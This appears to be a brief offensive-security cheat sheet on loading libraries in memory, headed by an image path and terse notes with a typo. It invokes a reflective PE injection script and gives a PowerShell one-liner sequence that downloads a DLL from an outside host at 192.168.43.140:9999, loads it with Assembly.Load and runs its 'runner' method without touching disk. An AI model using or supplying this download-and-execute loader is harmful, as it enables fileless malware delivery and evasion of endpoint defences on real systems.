 


## Csharp -> loadlibrary 


## Powershell -> loadLibrary not in the disk and in the memeory

Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1

Invoke-ReflectivePEInjection





$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.43.140:9999/ClassLibrary1.dll ') 
$assem = [System.Reflection.Assembly]::Load($data) 
$class = $assem.GetType("ClassLibrary1.Class1") 
$method = $class.GetMethod("runner") $method.Invoke(0, $null)
